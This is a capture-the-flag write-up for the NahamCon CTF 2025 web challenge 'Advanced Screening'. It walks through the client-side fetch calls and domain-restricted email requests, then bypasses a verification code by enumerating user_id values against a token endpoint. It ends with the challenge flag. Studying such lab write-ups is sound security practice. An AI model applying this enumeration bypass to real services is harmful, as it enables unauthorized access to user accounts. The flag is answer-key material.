```yaml
---
name: Advanced Screening (2025)
event: NahamCon CTF 2025
category: Web
description: Writeup for Advanced Screening (Web) - NahamCon CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Advanced Screening

## Description

> HackingHub has provided this CTF challenge!

## Solution

From the homepage, we can enter an email address and request an access code.

![](images/0.PNG)

Doing so returns an error, so let's check the JS. `requestAccessCode()` sends the email address to an API endpoint.


```js
const response = await fetch('/api/email/', {
	method: 'POST',
	headers: { 'Content-Type': 'application/json' },
	body: JSON.stringify({ email })
```


`verifyCode` checks if the access code is 6 characters. If so, it sends the value to `/api/validate`. If it gets a response containing a `user_id`, it will send it to `/api/screen-token` and hopefully return a token (`tokenData.hash`) that we can use as a key to access the `/screen` endpoint.


```js
if (code.length === 6) {
	try {
		const response = await fetch('/api/validate/', {
			method: 'POST',
			headers: { 'Content-Type': 'application/json' },
			body: JSON.stringify({ code })
		});
		const data = await response.json();
		if (response.ok && data.user_id) {
			const tokenResponse = await fetch('/api/screen-token', {
				method: 'POST',
				headers: { 'Content-Type': 'application/json' },
				body: JSON.stringify({ user_id: data.user_id })
			});
			const tokenData = await tokenResponse.json();
			if (tokenResponse.ok && tokenData.hash) {
				window.location.href = `/screen/?key=${tokenData.hash}`;
			} else {
				alert("Failed to retrieve screening token.");
			}
		} else {
			alert("Invalid code. Please try again.");
		}
```


My first thought; do we need the code at all? Can't we just bypass it and go straight to `screen-token`, assuming that the `user_id` is predictable (I'll start with "1").


```js
tokenResponse = await fetch("/api/screen-token", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ user_id: 1 }),
});
```


Didn't work. While reviewing burp history I noticed an error message from our earlier email attempt.


```json
{ "error": "Only email addresses from \"movieservice.ctf\" are allowed" }
```


If we send `{"email":"admin@movieservice.ctf"}`, the request is successful. It seems to work with any `movieservice.ctf` email actually.


```json
{ "message": "Verification Email Sent" }
```


Let's try sending a 6 digit code.


```js
response = await fetch("/api/validate/", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ code: 123456 }),
});
```



```json
{ "error": "Invalid code" }
```


There's 1 million possibilities for the code, so brute force is obviously not the intended solution. However, I'm going to get some lunch so why not leave intruder running for 30 minutes and see the results 🤷‍♂️😂


```js
async function verifyCode() {
    try {
        const tokenResponse = await fetch("/api/screen-token", {
            method: "POST",
            headers: { "Content-Type": "application/json" },
            body: JSON.stringify({ user_id: 1 }),
        });
        const tokenData = await tokenResponse.json();
        console.log();
        if (tokenResponse.ok && tokenData.hash) {
            window.location.href = `/screen/?key=${tokenData.hash}`;
        } else {
            alert("Invalid code. Please try again.");
        }
    } catch (error) {
        console.error("Error verifying code:", error);
    }
}
```


I didn't solve this in time, so checked the writeup afterwards and kicked myself! I already brute forced the `user_id` between 1-100 for the `/api/screen-token` endpoint, but someone said the correct `user_id` was `7`. I tried it again.

![](images/1.PNG)

Nothing. Follow the redirection just in case.

![](images/2.PNG)

Apparently the problem was a missing `/` on the endpoint in the first request 😆

![](images/3.PNG)

That gets us the hash, then we just need to call the `/screen` endpoint with the key!

![](images/4.PNG)

Flag: `flag{f0b1d2a98cd92d728ddd76067f959c31}`
